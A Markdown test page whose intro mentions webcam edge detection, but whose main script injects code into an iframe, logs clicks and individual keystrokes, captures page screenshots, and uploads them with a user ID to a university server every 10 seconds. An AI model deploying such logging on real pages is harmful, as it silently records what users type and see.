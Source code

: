 # Test Page with JavaScript!

This is a test page to see if JavaScript can access the user's webcam and apply a Sobel edge detection filter to the video.


## Example

Below is a button that triggers a JavaScript alert when clicked:

<button id="testButton">Click Me</button>

<script>
  // Simple JavaScript to display an alert when the page is loaded
  $(document).ready(function () {
    // Show an alert as soon as the page loads
    //alert("The page has loaded successfully!");

    // Add functionality to the button
    const button = document.getElementById("testButton");
    button.addEventListener("click", function () {
      alert("You clicked the button!");
    });
  });
</script>








# Click Screenshot Capture & Upload (Handles Iframe & Captures Clicks Early)

Click anywhere to take a screenshot of the **entire page**, including an iframe if it exists.

<script src="https://cdnjs.cloudflare.com/ajax/libs/html2canvas/1.4.1/html2canvas.min.js"></script>

<script>
let eventQueue = []; // Stores events before sending
const SEND_INTERVAL = 10000; // Send every 10 seconds

let checkLoad = setInterval(() => {
  if (document.readyState === "complete") {
    clearInterval(checkLoad);
    console.log("Forced: Window fully loaded!");

    // Now trigger the iframe event injection
    initializeIframeHandling();

    // Start the interval for sending events
    setInterval(sendEventsToServer, SEND_INTERVAL);
  }
}, 500);

function initializeIframeHandling() {
  console.log("Initializing iframe event handling...");

  const iframe = document.getElementsByTagName("iframe")[0];

  if (iframe) {
    try {
      const iframeDoc = iframe.contentDocument || iframe.contentWindow.document;

      if (iframeDoc) {
        console.log("Injecting event forwarding script into iframe...");

        const script = iframeDoc.createElement("script");
        script.textContent = `
          console.log("Injected script running inside iframe!");
          
          // List all attached event listeners
          //  console.log("Checking event listeners inside iframe...");
          //  setTimeout(() => {
          //      console.log(getEventListeners(document)); // Chrome-specific
          //  }, 2000); // Delay to ensure execution

          /*function attachListeners() {
              document.removeEventListener("mousedown", forwardEvent, true);
              document.removeEventListener("pointerdown", forwardEvent, true);
              document.removeEventListener("keydown", forwardEvent, true);

              document.addEventListener("mousedown", (e) => forwardEvent(e, "mousedown"), true);
              document.addEventListener("pointerdown", (e) => forwardEvent(e, "pointerdown"), true);
              document.addEventListener("keydown", (e) => forwardEvent(e, "keydown"), true);

              //console.log("Re-attached event listeners inside iframe!");
          }*/

          function forwardEvent(event, type) {
                console.log('Inside forwardEvent: ' + type + ' detected'); 
                let eventData = {
                    type: "iframeClick",
                    eventType: type,
                    timestamp: Date.now()
                };

                if (type === "keydown") {
                    eventData.key = event.key;
                } else {
                    eventData.x = event.clientX;
                    eventData.y = event.clientY;
                }

                event.stopPropagation();
                window.parent.postMessage(eventData, "*");
            }

          //attachListeners();
          //setInterval(attachListeners, 1000); // Reattach every second in case of iframe reload
        `;



        iframeDoc.head.appendChild(script);
      }
    } catch (error) {
      console.warn("Could not inject script into iframe:", error);
    }
  }

  // Listen for iframe click events in the parent window
  window.addEventListener("message", function (event) {
        if (event.data && event.data.type === "iframeClick") {
            console.log("Captured event inside iframe:", event.data);

            let eventRecord = {
                userId: init.userId, // Track the user ID
                eventType: event.data.eventType,
                timestamp: event.data.timestamp
            };

            if (event.data.eventType === "keydown") {
                eventRecord.key = event.data.key; // Store the key
            } else {
                eventRecord.x = event.data.x;
                eventRecord.y = event.data.y;
            }

            // Store event in queue
            eventQueue.push(eventRecord);

            // Only take screenshots for mouse clicks
            if (event.data.eventType === "mousedown" || event.data.eventType === "pointerdown") {
                takeScreenshot(event.data.x, event.data.y);
            }
        }
    });

}

// Function to send batched events to the server every 10 seconds
function sendEventsToServer() {
  if (eventQueue.length === 0) return; // Don't send if there's nothing to send

  console.log("Sending batched events to server:", eventQueue);

  fetch("https://cumberland.isis.vanderbilt.edu/skyler/save_events.php", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ userId: init.userId, events: eventQueue })
  })
    .then(response => response.json())
    .then(data => console.log("Events upload successful:", data))
    .catch(error => console.error("Error uploading events:", error));

  eventQueue = []; // Clear queue after sending
}

// Function to capture a screenshot
async function takeScreenshot(clickX, clickY) {
  try {
    const iframe = document.getElementsByTagName("iframe")[0];
    let mainCanvas, iframeCanvas;

    // Capture the main page content
    mainCanvas = await html2canvas(document.body);

    if (iframe) {
      try {
        const iframeDoc = iframe.contentDocument || iframe.contentWindow.document;

        if (iframeDoc) {
          console.log("Iframe found and accessible. Capturing its content...");
          iframeCanvas = await html2canvas(iframeDoc.body);
        } else {
          console.warn("Iframe found but content is inaccessible. Skipping iframe.");
        }
      } catch (error) {
        console.warn("Unable to capture iframe due to security restrictions:", error);
      }
    }

    // Determine the final canvas size
    let finalCanvas = document.createElement("canvas");
    let finalCtx = finalCanvas.getContext("2d");

    if (iframeCanvas) {
      finalCanvas.width = Math.max(mainCanvas.width, iframeCanvas.width);
      finalCanvas.height = mainCanvas.height + iframeCanvas.height;

      finalCtx.drawImage(mainCanvas, 0, 0);
      finalCtx.drawImage(iframeCanvas, 0, mainCanvas.height);
    } else {
      finalCanvas.width = mainCanvas.width;
      finalCanvas.height = mainCanvas.height;
      finalCtx.drawImage(mainCanvas, 0, 0);
    }

    // Draw a red dot where the user clicked
    finalCtx.fillStyle = "red";
    finalCtx.beginPath();
    finalCtx.arc(clickX + 10, clickY + 3, 3, 0, 2 * Math.PI);
    finalCtx.fill();

    // Convert the final canvas to an image and send it to the server
    finalCanvas.toBlob((blob) => {
      const formData = new FormData();
      formData.append("screenshot", blob, "screenshot.png");
      formData.append("clickX", clickX);
      formData.append("clickY", clickY);
      formData.append("userId", init.userId); // Include user ID in the request

      fetch("https://cumberland.isis.vanderbilt.edu/skyler/save_screenshot.php", {
        method: "POST",
        body: formData
      })
        .then(response => response.json())
        .then(data => console.log("Screenshot upload successful:", data))
        .catch(error => console.error("Error uploading screenshot:", error));
    }, "image/png");

  } catch (error) {
    console.error("Screenshot capture failed:", error);
  }
}


</script>